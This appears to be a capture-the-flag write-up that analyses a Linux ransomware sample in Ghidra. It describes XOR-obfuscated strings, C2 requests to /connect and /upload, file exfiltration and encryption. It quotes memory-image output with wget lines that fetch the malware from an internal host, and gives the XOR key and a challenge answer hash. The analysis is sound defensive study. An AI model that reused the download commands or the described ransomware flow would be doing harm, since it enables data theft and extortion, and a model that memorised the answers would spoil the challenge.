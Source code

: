 # Lockpick3.0

## Speech
```
The threat actors of the Lockpick variant of Ransomware seem to have increased their skillset. Thankfully on this occasion they only hit a development, non production server. We require your assistance performing some reverse engineering of the payload in addition to some analysis of some relevant artifacts. Interestingly we can't find evidence of remote access so there is likely an insider threat.... Good luck! Please note on the day of release this is being utilised for a workshop, however will still be available (and free).
```

## Analysis
1. Open the ELF file in Ghidra
2. Go to the `entry` function, double click on the first argument, it's the main function
3. Modify the function signature :
![main function signature](../../img/lockpick3/00_main_signature.png)
4. In the beginning of the main we can see 7 call to a function taking a global as first argument, let's go in this function and modify it, after a little bit of reading we can see it's a function xoring the global with the first argument :
![xor function](../../img/lockpick3/01_xor_function.png)
5. Then I go back in the main function and made some formating, I changed the name of the global in order to recognize them if reused later
![main first stage](../../img/lockpick3/02_main_xor.png)
6. Then we have a line with a function taking 3 buffer as arguments, let's go in this function
    - first thing we can see the local_13c is the return value
    - then continue to lvar2 which is the return of curl_easy_init function, so we know this function is doing something with curl
    - Then a function is called with one argument, the function FUN_00102d7d :
        - This function used the function gethostname
        - if the return is different than 0 a variable is set wit the value "unknown"
        - Then the result of the xor of the third global string xored in the main is stored in a variable (len 7)
        - Then the first param is set with a string containing "passphrase :" (then the third decrypt string) and "hostname :" (with unknonw)
        - Not sure what this function does, I think it check the hostname
        ![hostname function](../../img/lockpick3/03_hostname_function.png)
    - After the hostname function we have options added to the curl instance (we know we send json or received)
    - then store the first decrypted string in a buffer and add the /connect at the end, probably an URL/domain name
    - Check if curl is inited and add some option with curl_easy_setopt function (https://curl.se/libcurl/c/curl_easy_setopt.html and the code : https://gist.github.com/jseidl/3218673)
    - The curl is done wiht curl_easy_perform and the result is stored in a variable
    - In the option we have a malloc for this option : `CURLOPT_FILE = 10001;` which mean the result has been stored in a file, after the if we see the use of `cJSON_Parse`
    - Each `cJSON_GetObjectItem` take the parsed json and a string then store the "value" for the given "key" (the string pointed to) store the value in a var and this var is then attribute to the parameters of the function
    ![curl request key and iv](../../img/lockpick3/04_request_json.png)
    - This function is making a request to the C2 in order to recover a key, an IV and a client ID probably to encrypt later
7. If the curl request successfully recover the json information a new function is launched, `FUN_00102eeb` :
    - The second decoded string is stored in a variable and used by the function `opendir`, so the second decrypted string must be a folder path (`__dirp` is a structure (an object of type dir), https://pubs.opengroup.org/onlinepubs/009695399/functions/opendir.html and the DIR structure : https://www.gnu.org/software/libc/manual/html_node/Directory-Entries.html)
    - if the opendir is successful then we use readdir (in a loop) to iterate through the file of the folder
    - the `d_name` of the file (the name of the file) is concatenated to the path then stored in a variable
    - Then a function is called and this function only call the `xstat` function (https://codebrowser.dev/glibc/glibc/sysdeps/unix/sysv/linux/xstat.c.html), this function is used for getting info about the file NAME
    - After we have two check, one checking if the file name is '.' and one to check if '..' to not encode the current and previous directory, to skip them
    - The next function is full of file extension, I think this function check the extension to do action only on these extensions
    - The function in the if (`FUN_001031eb`)
        - The function xpg_basename return the last component of a file name : https://refspecs.linuxbase.org/LSB_5.0.0/LSB-Core-generic/LSB-Core-generic/baselib---xpg-basename.html and stored in a var then opened with fopen
        - then a curl is created and options are added
        - this function ultimately send the file to the /upload endpoint
    - If the exfiltration is ok we have another function (`FUN_0010255a`)
        - https://en.cppreference.com/w/c/io/ftell
        - https://en.cppreference.com/w/cpp/io/c/fseek
        - https://github.com/openssl/openssl/issues/22628
        ![encrypt file function](../../img/lockpick3/06_encrypt_file.png)
    - We have a function iterating each file, checking the extension and if it's interesting the file is exfiltrate via curl then encrypted
    ![iterate files](../../img/lockpick3/07_iterate_files.png)

8. To continue we need to decrypt the xored data, let's find the key in the vmem file :
```bash
$ strings ubuntu-client-Snapshot2.vmem | grep ubuntu-client
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
chmod +x ubuntu-client 
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
wget http://10.10.0.70:8000/ubuntu-client
wget http://10.10.0.70:8123/ubuntu-client
```
9. The key is `xGonnaGiveIt2Ya`

## Questions
1. Please confirm the file hash of the malware? (MD5)
    > a2444b61b65be96fc2e65924dee8febd
    - md5sum * after unzipping
2. Please confirm the XOR string utilised by the attacker for obfuscation?
    > 
    - 
3. What is the API endpoint utilised to retrieve the key?
    > 
    - 
4. What is the API endpoint utilised for upload of files?
    > 
    - 
5. What is the name of the service created by the malware?
    > 
    - 
6. What is the technique ID utilised by the attacker for persistence?
    > 
    - 